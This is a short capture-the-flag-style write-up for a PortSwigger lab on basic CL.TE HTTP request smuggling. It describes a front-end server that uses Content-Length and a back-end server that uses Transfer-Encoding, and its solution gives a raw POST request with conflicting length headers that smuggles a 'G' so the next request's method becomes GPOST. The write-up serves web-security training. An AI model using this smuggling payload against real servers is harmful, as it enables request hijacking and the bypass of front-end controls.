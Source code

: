 # [Lab: HTTP request smuggling, basic CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST.`

## Characteristics

front-end: CL

back-end: TE

## Solution

```http
POST /post/comment HTTP/1.1
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

